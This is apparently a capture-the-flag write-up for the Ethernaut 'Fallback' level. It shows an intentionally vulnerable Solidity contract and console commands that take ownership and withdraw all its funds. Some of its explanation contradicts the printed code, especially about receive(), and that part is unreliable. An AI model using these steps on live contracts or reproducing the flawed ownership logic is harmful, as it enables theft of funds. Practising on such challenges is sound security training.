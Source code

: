 ### TASK
The task is to claim ownership of the contract and drain its balance to 0.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

The contract's funds can be drained by calling the "withdraw" function, and this function can only be executed by the address that is set as the "owner" variable. This function will transfer all of the contract's funds to the address set as the "owner". 


### CODE VUNERABILITIES
##### The "contribute() function"

```solidity
 function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

This function allows the msg.sender to send Ether to the contract, which will be added to the user's balance as tracked by the "contributions" mapping variable. If the total contribution made by the msg.sender is greater than the total contribution made by the current owner (as tracked by the "contributions" mapping variable), the msg.sender will become the new owner.
<br/>
This function could be vulnerable to a "frontrunning" attack, where an attacker can observe the transaction, and sends a larger amount of wei before the original transaction is mined, to become the new owner and some other vunerabilities.
<br/>

##### The 'recieve()' function 
The "receive" function is a special function in Solidity that is automatically executed when a user sends Ether to a contract without specifying any data in the "data" field of the transaction. This function does not require any specific function signature and can be defined by the developer as any other function in the contract.

```solidity
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

In the receive function, the owner is updated with msg.sender only if the amount of wei sent with the transaction is greater than 0, and the total contribution made by msg.sender in the contributions mapping is greater than the one made by the current owner. 

##### STEPS TO EXPLOIT
1. We need to first contribute a small amount of ether(in wei) to the contract;

```
   await contract.contribute({from: player, value:toWei("0.0004")})
```

2. Activate the receive function by sending ether to the contract;

```
   await sendTransaction({from: player, value: toWei("0.0004"), to: instance, data: ""})
```

Now check the current owner, it should be your address

```
await contract.owner()
```

You can withdraw all the funds in the contract now by using;

```
  await contract.withdraw();
```

##### Conclusion
If an attacker can finds a way to change the value of the "owner" variable to their own address, they will be able to execute the "withdraw" function and drain all the funds from the contract. Therefore, it is important to ensure that the "owner" variable is protected and cannot be modified by unauthorized parties.

